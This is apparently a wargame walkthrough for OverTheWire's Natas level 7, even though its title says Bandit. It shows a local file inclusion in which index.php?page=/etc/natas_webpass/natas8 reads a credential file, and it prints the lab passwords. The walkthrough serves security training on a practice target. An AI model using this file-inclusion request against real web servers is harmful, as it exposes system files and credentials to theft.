

# BANDIT LEVEL 7

```
http://overthewire.org/wargames/natas/natas7.html
```

```
Username: natas7
Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
URL:      http://natas7.natas.labs.overthewire.org
```



### SOLUTION

Peak at the page source yields a clue in the comment..

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas7", "pass": "7z3hEENjQtflzgnT29q7wAvMNfZdh0i9" };</script></head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```

On the main page, when we click on the "Home" link and the "About" link it redirects to
the following URLs respectively..

```
http://natas7.natas.labs.overthewire.org/index.php?page=home
http://natas7.natas.labs.overthewire.org/index.php?page=about
```

If we give the garbage parameter `foobar` to `index.php`, we get an informative error
message..

```
http://natas7.natas.labs.overthewire.org/index.php?page=foobar

Warning: include(foobar): failed to open stream: No such file or directory in /var/www/natas/natas7/index.php on line 21

Warning: include(): Failed opening 'foobar' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/natas/natas7/index.php on line 21
```

We see that it tries to open the file `foobar` from the file `/var/www/natas/natas7/index.php`.
So let's give `index.php` the parameter of the password file `/etc/natas_webpass/natas8`.

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas7", "pass": "7z3hEENjQtflzgnT29q7wAvMNfZdh0i9" };</script></head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```
